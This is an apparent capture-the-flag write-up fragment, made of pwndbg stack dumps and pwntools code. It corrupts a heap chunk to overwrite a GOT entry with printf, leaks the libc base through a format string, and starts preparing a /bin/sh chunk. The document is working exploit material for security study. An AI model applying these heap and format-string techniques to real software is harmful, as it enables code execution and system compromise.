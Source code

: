 ```
02:0010│      0x7ffd05441d70 ◂— 0xa32 /* '2\n' */
03:0018│      0x7ffd05441d78 ◂— 0x5269a5900830e00
04:0020│ rbp  0x7ffd05441d80 —▸ 0x7ffd05441db0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
05:0028│      0x7ffd05441d88 —▸ 0x400ead (main+246) ◂— jmp    0x400ed3
06:0030│      0x7ffd05441d90 ◂— 0x400400ee0
07:0038│      0x7ffd05441d98 —▸ 0x17d9010 —▸ 0x400896 (hello_message) ◂— push   rbp
08:0040│      0x7ffd05441da0 —▸ 0x7ffd05440a34 ◂— 0x0
09:0048│      0x7ffd05441da8 ◂— 0x5269a5900830e00
0a:0050│      0x7ffd05441db0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
0b:0058│      0x7ffd05441db8 —▸ 0x7fd40614d840 (__libc_start_main+240) ◂— mov    edi, eax
0c:0060│      0x7ffd05441dc0 ◂— 0x0
0d:0068│      0x7ffd05441dc8 —▸ 0x7ffd05441e98 —▸ 0x7ffd0544325a ◂— 0x4553006e77702f2e /* './pwn' */
0e:0070│      0x7ffd05441dd0 ◂— 0x100000000
0f:0078│      0x7ffd05441dd8 —▸ 0x400db7 (main) ◂— push   rbp
10:0080│      0x7ffd05441de0 ◂— 0x0
11:0088│      0x7ffd05441de8 ◂— 0xbbf34e29f2498c92
12:0090│      0x7ffd05441df0 —▸ 0x4007a0 (_start) ◂— xor    ebp, ebp
13:0098│      0x7ffd05441df8 —▸ 0x7ffd05441e90 ◂— 0x1
pwndbg> fmtarg 0x7ffd05441db8
The index of format argument : 17 ("\%16$p")
pwndbg> xinfo 0x7fd40614d840
Extended information for virtual address 0x7fd40614d840:

  Containing mapping:
    0x7fd40612d000     0x7fd4062ed000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so

  Offset information:
         Mapped Area 0x7fd40614d840 = 0x7fd40612d000 + 0x20840
         File (Base) 0x7fd40614d840 = 0x7fd40612d000 + 0x20840
      File (Segment) 0x7fd40614d840 = 0x7fd40612d000 + 0x20840
         File (Disk) 0x7fd40614d840 = /lib/x86_64-linux-gnu/libc-2.23.so + 0x20840

 Containing ELF sections:
               .text 0x7fd40614d840 = 0x7fd40614c8b0 + 0xf90
```
change to printf('.%17$p.') to leak libc address
```python
add(0x50, '000000')
add(0x50, '111111')
add(0x10, '.%17$p.')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

add(0x50, '222222')
# add(0x50, cyclic(n=8, length=0x30))
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))

delete(2)
p.recvuntil('.')
libc.address = int(p.recvuntil('.', drop = True), 16) - 0x20840
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0
```
```
[+] Starting local process './pwn': pid 4080
libc @ 0x7f40d46f1000
```
add a new chunk /bin/sh,
```python
add(0x50, '000000')
add(0x50, '111111')
add(0x10, '.%17$p.')
```